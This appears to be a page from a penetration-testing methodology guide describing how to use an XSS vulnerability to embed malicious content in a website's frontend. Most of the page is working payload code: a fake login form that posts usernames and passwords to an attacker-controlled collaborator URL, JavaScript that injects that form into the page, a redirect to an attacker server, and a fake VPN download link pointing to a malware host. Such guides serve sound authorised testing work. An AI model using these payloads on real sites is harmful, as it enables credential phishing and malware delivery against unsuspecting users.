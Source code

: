 If you could not successfully achieve any of the other Impact Techniques, a last option is to embed malicious content into the frontend. 

This Impact Technique has one step:
1. Embed malicious content into the frontend

# 1. Embed malicious content
Use your XSS payload to insert a login form into the frontend, redirect the user, or perform some other undesirable behavior. 

If you can generate unfiltered HTML, you may consider the following login form:
```html
<form action="<BURP-COLLABORATOR-URL" method="post">
  <div class="container">
    <label for="uname"><b>Username</b></label>
    <input type="text" placeholder="Enter Username" name="uname" required>

    <label for="psw"><b>Password</b></label>
    <input type="password" placeholder="Enter Password" name="psw" required>

    <button type="submit">Login</button>
  </div>
</form>
```

If you can only insert JavaScript, the following code will automatically add the above `<form>` to the document object model:
~~~javascript
var loginForm = `<form action="BURP-COLLABORATOR-URL" method="post">
  <div class="container">
    <label for="uname"><b>Username</b></label>
    <input type="text" placeholder="Enter Username" name="uname" required>

    <label for="psw"><b>Password</b></label>
    <input type="password" placeholder="Enter Password" name="psw" required>

    <button type="submit">Login</button>
  </div>
</form>`;

html = document.getElementsByTagName("html")[0]; // change as needed
html.insertAdjacentHTML("beforeend", loginForm);
~~~
- Replace `BURP-COLLABORATOR-URL` with the URL of your remote server.
- This code will append the login form to the bottom of the page. This may not be desirable. If not, select a different element with `getElementsByTagName` to use instead. 
	- `insertAdjacentHTML` will insert the `loginForm` as an HTML child element of the calling object (in this case, `<html>`). 


The above example embeds a login form into the web page. Here are some other ideas:


**Redirect the user**
```javascript
window.location = "SERVER-URL";
```
- Replace `SERVER-URL` with a link to an external server that the attacker might wish to redirect users to. 


**Download a file**
```javascript
var loginForm = `<a href=SERVER-URL>Click to download the VPN</a>`;

html = document.getElementsByTagName("html")[0]; // change as needed
html.insertAdjacentHTML("beforeend", loginForm);
```
- Replace `SERVER-URL` with a link to a server hosting "malware".